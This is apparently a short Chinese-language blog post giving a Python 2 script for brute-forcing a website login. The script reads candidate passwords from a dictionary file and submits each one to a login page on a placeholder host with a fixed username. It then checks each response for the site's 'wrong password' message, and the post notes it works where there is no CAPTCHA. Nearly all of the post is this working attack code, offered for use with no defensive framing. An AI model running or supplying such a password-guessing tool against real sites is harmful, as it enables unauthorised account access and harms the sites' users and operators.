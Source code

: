 # 使用python进行密码暴力破解

根据字典文件,使用python进行暴力破解,程序很简单

注：针对没有验证码的情况

实例代码：

    
    
    #encoding=utf-8
    import httplib,urllib
    conn = httplib.HTTPConnection("www.xxx.cn")
    f=open("dict.txt")
    while 1:
        pwd=f.readline().strip()
        if not pwd:
            print '字典已比对完。'
            break
        params = urllib.urlencode({'username': 'xxx', 'mod': '', 'password': pwd})
        headers = {"Content-type": "application/x-www-form-urlencoded","Accept": "text/plain"}
        conn.request("GET", "/login/aaa.asp", params, headers)
        r = conn.getresponse()
        print r.status, r.reason
        data1 = r.read().decode('gbk')#编码根据实际情况酌情处理
        print data1.index(u'您输入的密码有误'),'您输入的密码\'%s\'有误'%pwd
    conn.close()

  

